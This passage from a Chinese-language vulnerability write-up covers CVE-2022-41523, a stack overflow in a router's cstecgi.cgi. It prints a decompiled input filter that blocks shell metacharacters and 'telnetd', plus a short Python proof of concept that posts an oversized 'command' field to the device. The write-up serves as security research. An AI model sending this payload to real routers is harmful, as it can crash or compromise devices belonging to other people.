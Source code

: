 ![](https://cdn.nlark.com/yuque/0/2022/png/574026/1668133829657-c60df908-92d3-4aec-9b0f-448fbf0d5daf.png)

## ③、CVE-2022-41523
漏洞类型为Stack OverFlow，漏洞点仍然在`cstecgi.cgi`：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1668134166155-44c187c9-2e15-4285-aa20-2ff1995cab5b.png)

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1668137178330-2f61f424-5924-4060-9689-8ca88f13719a.png)

这里没有命令执行漏洞，因为对用户输入的字符进行了过滤（那为啥前面的漏洞不过滤呢？是在想不通...）：

```c
BOOL __fastcall Validity_check(int a1)
{
  BOOL result; // $v0

  if ( strchr(a1, ';')
    || strstr(a1, ".sh")
    || strstr(a1, "iptables")
    || strstr(a1, "telnetd")
    || strchr(a1, '&')
    || strchr(a1, '|')
    || strchr(a1, '`')
    || strchr(a1, '$') )
  {
    result = 1;
  }
  else
  {
    result = strchr(a1, '\n') != 0;
  }
  return result;
}
```

栈溢出的poc如下：

```python
import requests

url = "http://192.168.5.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1668135762:2"}
data = {
    'topicurl' : "setTracerouteCfg",
	"command" : "a"*0x1000,
    "num": "1"
 }
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1668141982691-629aa057-d94b-445f-8379-32e7e9394435.png)
